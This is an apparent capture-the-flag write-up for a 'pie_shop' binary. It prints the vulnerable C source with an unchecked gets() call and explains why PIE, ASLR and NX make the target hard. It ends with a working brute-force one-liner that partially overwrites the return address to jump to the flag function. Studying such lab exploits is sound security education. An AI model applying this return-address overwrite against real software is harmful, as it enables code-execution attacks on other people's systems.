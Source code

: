 ## exploit
Source code:
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
	printf("What type of pie do you want? ");

	char pie[50];
	gets(pie);

	if (strcmp(pie, "apple") == 0) {
		printf("Here's your pie!\n");
		printf("      _,..---..,_\n");
		printf("  ,-\"`    .'.    `\"-,\n");
		printf(" ((      '.'.'      ))\n");
		printf("  `'-.,_   '   _,.-'`\n");
		printf("    `\\  `\"\"\"\"\"`  /`\n");
		printf("      `\"\"-----\"\"`\n");
	} else {
		printf("Whoops, looks like we're out of that one.\n");
	}
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("Welcome to the pie shop! Here we have all types of pies: apple pies, peach pies, blueberry pies, position independent executables, pumpkin pies, rhubarb pies...\n");
	get_pie();

	return 0;
}
```
file:

```
pie_shop: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped
```

checksec:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The vulnerability was in `get_pie` function, in fact there was a `gets` that allowed to overwrite RA without any kind of checks or canary.

Ok but where to jump?

Answer this question was not easy, in fact we had:

* ASLR enabled
* PIE code 
* NX stack
* no leak avaiable

```
$ cat /proc/sys/kernel/randomize_va_space
2
```

This combination was terrible especially with PIE code:

this kind of protection makes unpredictable where code segment were loaded changing every time we execute binary. Of course the offsets, in the code section, remained the same. For istance we knew that the offset of `flag` function ends with `1a9`, the `gets_pie` with `1bc` etc.

I explored two alternatives:

*  ### ret2vsyscall

![vmmap](https://i.ibb.co/vstZRxr/gdb-vmmap.png)
    as we can see in gdb we had vsyscall, this section load some functions at the same location without ASLR in order to speed up some system call. This could be useful in order to build some ROP chain but:

1. any attempts to jump into an arbitrary instruction inside this section cause a segfault.
    
![segfault](https://i.ibb.co/svmfLdb/gdb-crash-vsys.png|width=10)


2. the syscall inside this pages are:
	* __NR_gettimeofday
	* __NR_time
	* __NR_getcpu
        
	here maybe the interesting gadget could be RET but we are already able to jump at any location



*  ### partial overwrite

    The idea was to write the least significant 2 bytes of RA - in fact the offsets of instructions in code segment remained the same. Moreover I had another problem, to reach RA I needed to write `72` bytes plus `2` bytes to overwrite RA's least significant bytes, unfortunetley the len of malicious input was not multiple of 8, so a `NULL` byte was automatically appended.
    
    However:
    The goal is jump into `flag` procedure. Without overflow anything, the stack frame in `gets_pie` procedure contained RA to main procedure. So `5` of these bytes - the most significant ones - were the same as `flag` procedure, the problem was the less significant 3 bytes.
    
    Of these 3 bytes the least significant one was always `a9`, so remained 16 bit to guess and 8 of these (that i wasn't able to control) were: `0x00`. 
    
    The goal at this point was to find at least one execution that had `flag` procedure loaded into an address that ends with: `....0011a9`


```bash
for i in `seq 1 10000`; do python -c 'print "a"*72+"\xa9\x11"' | ./pie_shop 2> /dev/null | grep -i actf; done
```



##### flag: actf{a_different_kind_of_pie}



